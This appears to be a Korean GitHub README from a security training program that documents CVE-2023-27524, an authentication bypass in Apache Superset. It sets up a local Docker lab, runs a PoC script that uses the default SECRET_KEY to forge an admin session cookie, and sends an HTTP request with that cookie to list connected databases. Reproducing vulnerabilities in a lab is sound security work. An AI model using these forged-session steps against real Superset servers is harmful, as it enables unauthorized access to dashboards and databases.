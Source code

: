 # CVE-2023-27524 - Apache Superset 인증 우회 취약점
---
> 화이트햇 스쿨 3기 (13반) - [박세민 (@8sheeta8)](https://github.com/8sheeta8) 

## 개요

Apache Superset은 데이터 탐색과 시각화를 위한 오픈소스 플랫폼입니다.
Superset은 기본 설정으로 하드코딩된 SECRET_KEY 값을 사용합니다.
관리자가 이 값을 변경하지 않으면, 공격자가 이를 이용해 세션 쿠키를 위조하고 관리자로 로그인할 수 있습니다.
이를 통해 Superset 대시보드, 연결된 데이터베이스에 무단 접근이 가능하며, 추가 취약점과 연계할 경우 원격 코드 실행(RCE)까지 이어질 수 있습니다.

취약 버전: Superset <= 2.0.1
취약점 유형: 인증 우회 (Authentication Bypass)

참고:
- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>
  
## PoC GitHub

### 1. Docker를 이용한 취약 환경 구축
```
docker compose up -d
```
Superset 서버가 http://localhost:8088 에서 구동됩니다.


### 2. 의존성 설치
```
# PoC 코드에 필요한 패키지를 설치합니다.
pip install -r requirements.txt
```

### 3. Forged Session 쿠키 생성
```
# PoC 코드를 실행하여 관리자 계정(user_id=1) 세션을 위조합니다.
python CVE-2023-27524.py --url http://localhost:8088 --id 1 --validate
```
실행 결과 요약:
기본 SECRET_KEY 사용 (CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET) 확인

forged session 생성 완료
302 리다이렉션 발생 → 인증 우회 성공 판정

<img width="1280" alt="제목 없음" src="https://github.com/user-attachments/assets/136e9b98-eb68-4ccc-a959-a0b914f95bf7" />

### 4. 인증 우회하여 백엔드 접근
```
# BurpSuite를 통해 forged session으로 API 호출

GET /api/v1/database/ HTTP/1.1
Host: localhost:8088
Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aA4W5Q.ni44K6wlFydKq4jwQZ0k3JcC6T0
```
정상적으로 200 OK 응답 수신
데이터베이스 리스트 열람 가능

![스크린샷 2025-04-27 205322](https://github.com/user-attachments/assets/3253505d-8ded-49b9-91f0-c0b05751c396)
